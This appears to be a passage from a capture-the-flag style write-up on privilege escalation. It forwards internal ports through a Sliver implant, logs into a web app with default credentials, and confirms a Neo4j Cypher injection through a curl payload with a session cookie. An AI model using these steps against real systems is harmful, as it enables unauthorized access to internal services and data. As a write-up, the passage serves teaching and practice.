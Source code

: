 ## Privilege Escalation

During our enumeration process from the Sliver implant, we identified several locally listening ports. Among the discovered ports, we noticed 3306 and 7474, which hinted at MySQL and Neo4j services. Additionally, ports 3000 and 8001 seemed to host HTTP servers. We made sure to forward both of these ports to our loopback address using Sliver to easily access the services from our machine.

```shell
use
portfwd add -r 127.0.0.1:3000 -b 127.0.0.1:3000
portfwd add -r 127.0.0.1:8001 -b 127.0.0.1:8001
```
{:file="sliver-client" .nolineno}

To identify and fingerprint the web applications on these ports, we used [Wappalyzer](https://www.npmjs.com/package/wappalyzer/v/6.10.66).

```zsh
# Fingerprint web applications
for p in 3000 8001; do wappalyzer http://127.0.0.1:$p | tee logs/web-$p.json; done
```
{:file="bryan@red_team" .nolineno}

Port 3000 appeared to be running a self-hosted Git service called Gogs, while port 8001 hosted a Python web app.

### Port 8001

We were redirected to a page asking us to authenticate with a username and password.

![Port 8001 login page](privesc-port-8001-login.png)

After attempting various username and password combinations on the login page, we successfully logged in to the application using the credentials "admin:admin". We discovered an employee search feature which used the **/search** endpoint and seemed to be vulnerable to injection using a single quote character.

![Port 8001 search feature](privesc-port-8001-search.png)

We infered that this might be related to Neo4j Cypher queries due to the presence of the Neo4j service on port 7474.

[More reading on Neo4j Cypher injection](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j)

We crafted a Cypher injection payload and confirmed that it successfully executed by receiving a HTTP 200 response.

```zsh
# Verify cypher injection vector
payload="lvHbNo' RETURN 0 AS _0//"
session="616254c6-ddff-4632-a53e-d0f0de121aec" # Admin session cookie here
curl http://localhost:8001/search -b "session=$session" -d "search=$payload" \
  -s -o /dev/null -w '%{http_code}\n'
```
{:file="bryan@red_team" .nolineno}
